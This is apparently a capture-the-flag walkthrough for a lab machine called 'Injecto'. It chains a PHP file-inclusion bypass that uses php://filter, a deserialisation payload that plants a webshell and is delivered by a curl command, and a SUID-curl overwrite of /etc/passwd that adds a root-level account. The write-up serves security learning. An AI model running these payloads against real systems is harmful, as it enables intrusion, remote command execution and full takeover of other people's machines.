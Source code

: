 # Injecto

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.173
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 23:05 +08
Nmap scan report for 192.168.183.173
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

### Web Enum -> PHP LFI

Port 80 shows a simple quiz application:

<figure><img src="../../../.gitbook/assets/image (1629).png" alt=""><figcaption></figcaption></figure>

If we click any of the buttons, we are shown a very obvious LFI.

<figure><img src="../../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

Attempting to do anything with it results in being blocked by a WAF.

<figure><img src="../../../.gitbook/assets/image (1560).png" alt=""><figcaption></figcaption></figure>

We can confirm that the website runs on PHP by visiting `index.php` and being shown the same page. Then, I experimented with some PHP Filter LFI exploits for the `blackdeath` page.

<figure><img src="../../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

The WAF is easily bypassed as long as we include it within the `page` parameter. We can read the code of `index.php` by visiting:

{% code overflow="wrap" %}
```
http://192.168.183.173/index.php?page=php://filter/convert.base64-encode/resource=blackdeath/../../../../../var/www/html/index
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (3152).png" alt=""><figcaption></figcaption></figure>

Here's the PHP code:

```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
                $extension = '.php';
            if(isset($_GET['page'])) {
                if(containsStr($_GET['page'], 'blackdeath') || containsStr($_GET['page'], 'coronavirus')) {
                    include $_GET['page'] . $extension;
                } else {
                    echo 'Tampering Detected!';
                }
            }
?>
```

### Source Code Review -> Deserialisation

We can read the `index.php` file of the `nginx` configuration here:

```
http://192.168.183.173/index.php?page=php://filter/convert.base64-encode/resource=blackdeath/../../../../../../usr/share/nginx/html/index
```

Here's the PHP code:

```php
<?php
            class MyClass {
            
            public $form_file = 'msgwithres.txt';
            public $msgo = '';
            
            public function Savemsgo() {
            
            $researcher_name = $_GET['name']; 
            $researcher_email = $_GET['email'];
            $respo = $_GET['comments'];
            
                $this-> msgo = "msgo: " . $researcher_name . " || Email : " . $researcher_email . " || Comment: " . $respo . "\n";
            
            }
            public function __destruct() { 
            file_put_contents(__DIR__ . '/' . $this->form_file,$this->msgo,FILE_APPEND);
            echo 'Saved! :)';
            }
            }
            $values_submit = $_GET['values_submit'] ?? '';
            $msgovalues_submit = unserialize($values_submit);
            
            $webApp = new MyClass;
            $webApp -> Savemsgo();
?>
```

This PHP runs for the service on port 8080. The vulnerability here is the fact that the website deserialises the output we generate.&#x20;

We can then submit a GET requests with this payload:

```php
O:7:"MyClass":2:{s:9:"form_file";s:8:"test.php";s:4:"msgo";s:29:"<?php+system($_GET['cmd']);?>";}
```

This would output a webshell on the machine for us to execute commands from. To submit it, we can just use this `curl` command:

```bash
$ curl "http://192.168.183.173:8080/index.php?values_submit=O:7:%22MyClass%22:2:%7Bs:9:%22form_file%22;s:8:%22test.php%22;s:4:%22msgo%22;s:29:%22%3C?php+system(\$_GET%5B'cmd'%5D);?%3E%22;%7D"
```

Then, we can verify that we have RCE:

<figure><img src="../../../.gitbook/assets/image (1060).png" alt=""><figcaption></figcaption></figure>

Getting reverse shell using the usual `bash` one-liner is easy:

<figure><img src="../../../.gitbook/assets/image (1870).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Curl SUID -> Overwrite /etc/passwd

I searched for SUID binaries, and found that `curl` was one of them:

```
www-data@injectocurly:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/curl
```

This means we can overwrite any file. To get a `root` shell, we can overwrite the `/etc/passwd` file. First, generate a valid hash:

```
$ openssl passwd -1 hello   
$1$wsCz0GNf$0S8e55RreE.iCJIyEr3jP.
```

Afterwards, just copy the `/etc/passwd` file and append this line:

```
hacker:$1$wsCz0GNf$0S8e55RreE.iCJIyEr3jP.:0:0::/root:/bin/sh
```

Then, host the new `passwd` file on a HTTP server and `curl` it, directing the output to `/etc/passwd`. Afterwards, `su` to the new user to get `root`:

<figure><img src="../../../.gitbook/assets/image (3415).png" alt=""><figcaption></figcaption></figure>

Rooted!

